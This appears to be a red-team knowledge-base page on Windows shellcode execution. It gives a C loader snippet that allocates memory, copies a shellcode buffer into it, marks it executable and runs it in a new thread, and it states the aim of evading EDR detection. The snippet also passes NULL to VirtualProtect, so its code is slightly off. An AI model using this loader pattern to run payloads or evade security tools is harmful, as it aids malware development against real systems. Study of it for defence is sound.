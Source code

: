 ```yaml
---
label: Execution
---
```


# Shellcode Execution

Shellcode execution is a very broad topic. There are a lot of different techniques on how to do it, and we won't present all of them here. Actually the vast majority of ways to execte a shellcode boil down to a few basic steps. The various techniques differ in the way these steps are executed, the WinAPI functions used, etc.

Basic steps to execute the shellcode:

1. Allocate executable memory for the shellcode
2. Write the shellcode to the allocated memory
3. Execute the shellcode memory

The whole game is to perform all these necessary operations in such a way that the EDRs do not realize that they are dealing with malware. Various tricks are used for this purpose.

## Basic technique

Below we will present one of the most basic techniques for making shellcode by creation of a local thread. This is just an example, this technique is very well known and detected by all EDRs, but it illustrates very well the basics of the whole process.

```c
// 1. Allocate memory
PVOID shellcode_mem = VirtualAlloc(
  NULL,
  shellcode_size,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_READWRITE // Using PAGE_EXECUTE_READWRITE is an indicator of malware
);
 
// 2. Copy original shellcode to the allocated memory
memcpy(shellcode_mem, SHELLCODE, shellcode_size);

// 3. Make memory executable
VirtualProtect(
  shellcode_mem,
  shellcode_size,
  PAGE_EXECUTE_READWRITE,
  NULL
);
 
// 4. Create a new thread and execute the shellcode memory
HANDLE thread = CreateThread(NULL, NULL, shellcode_mem, NULL, NULL, NULL);
 
// 5. Wait for the thread
WaitForSingleObject(thread, INFINITE);
```
